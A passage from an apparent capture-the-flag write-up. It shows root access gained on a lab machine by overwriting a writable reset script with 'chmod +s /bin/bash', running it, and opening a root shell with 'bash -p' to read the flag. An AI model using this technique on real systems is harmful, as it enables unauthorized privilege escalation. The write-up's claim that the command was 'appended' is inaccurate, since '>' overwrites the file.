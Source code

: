 and the following are the contents of the file
```bash
arvind@arvindlazycorp:~$ cat /usr/bin/reset_site.sh
#!/bin/bash

echo "[*] Resetting website from backup..."

# Remove current site
rm -rf /var/www/html/*
# Restore from backup
cp -r /opt/backup/* /var/www/html/
# Set correct ownership
chown -R www-data:www-data /var/www/html/

echo "[+] Done resetting."
```
It's a simple file that works by removing the current site directory and copies a backup of the file to the same directory.
```bash
arvind@arvindlazycorp:~$ echo 'chmod +s /bin/bash' > /usr/bin/reset_site.sh
arvind@arvindlazycorp:~$ ./reset
arvind@arvindlazycorp:~$ bash -p
bash-5.0# id
uid=1000(arvind) gid=1000(arvind) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),117(lxd),1000(arvind)
```
The above commands copies a privilege escalation command into the script and when you execute the `reset` program, it also runs the other command that was appended in the file. In this case we set the `SUID` bit to the `/bin/bash` program and then run `bash -p` 
root flag
```bash
bash-5.0# cd /root
bash-5.0# cat root.txt
FLAG{lazycorp_reset_exploit_worked}
```

### Lesson Learnt
Web server paths on Linux systems are case-sensitive.